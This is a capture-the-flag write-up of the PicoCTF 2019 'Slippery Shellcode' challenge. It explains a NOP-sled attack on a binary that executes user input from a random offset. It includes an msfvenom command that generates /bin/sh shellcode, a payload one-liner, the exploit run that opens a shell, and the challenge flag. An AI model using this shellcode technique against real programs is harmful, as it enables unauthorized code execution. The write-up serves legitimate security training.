 # Slippery Shellcode | PicoCTF2019
## Problem
This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_4_64839254839978b32eb661ca92071d48 on the shell server.

## Solution
### 1. Read the code to understand what's going on
Can see that it's calling the vuln function from a random location, as determined by an offset value. Because of this we can no longer rely on a constant offset to place our shellcode at. However, the offset will be a number with a maximum of 256.
```bash
  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();

```

### 2. Construct the payload
We can use a NOP sled to make sure the control always passes to the shellcode. This means giving 256 NOP instructions followed by the payload.
The shellcode payload we can generate using msfvenom, just appending a print statement to ensure the 256 NOP bytes go before it.
```bash
kali@kali:~/Desktop$ msfvenom --arch x86 --platform linux -p linux/x86/exec CMD=/bin/sh -e generic/none -f python -o payload
kali@kali:~/Desktop$ echo "print('\x90' * 256 + buf)" >> payload
```
We now have a script we can run to produce the payload, which is then supplied to the binary. We also follow the payload by the cat program, which keeps the process open.

### 3. Claim the flag
On the server we recreate this script just by copy-pasting the code into a file, and then we can run it to get the flag.
```bash
$ (python payload; cat) | ./vuln
Enter your shellcode:
����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1���
                                                                                                                          Qh//shh/bin��̀
Thanks! Executing from a random location now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{sl1pp3ry_sh311c0d3_3d79d4df}
```